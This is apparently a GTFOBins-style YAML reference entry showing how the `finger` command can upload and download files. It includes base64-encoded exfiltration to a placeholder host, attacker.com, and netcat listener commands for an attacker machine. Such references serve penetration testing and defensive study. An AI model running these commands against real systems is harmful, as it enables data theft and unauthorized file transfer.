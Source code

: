 ```yaml
---
description: |
  `finger` hangs waiting for the remote peer to close the socket.
functions:
  upload:
    - description: Send a binary file to a TCP port. Run `sudo nc -l -p 79 | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        LFILE=file_to_send
        finger "$(base64 $LFILE)@$RHOST"
  download:
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | sudo nc -l -p 79` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        LFILE=file_to_save
        finger x@$RHOST | base64 -d > "$LFILE"
---
```

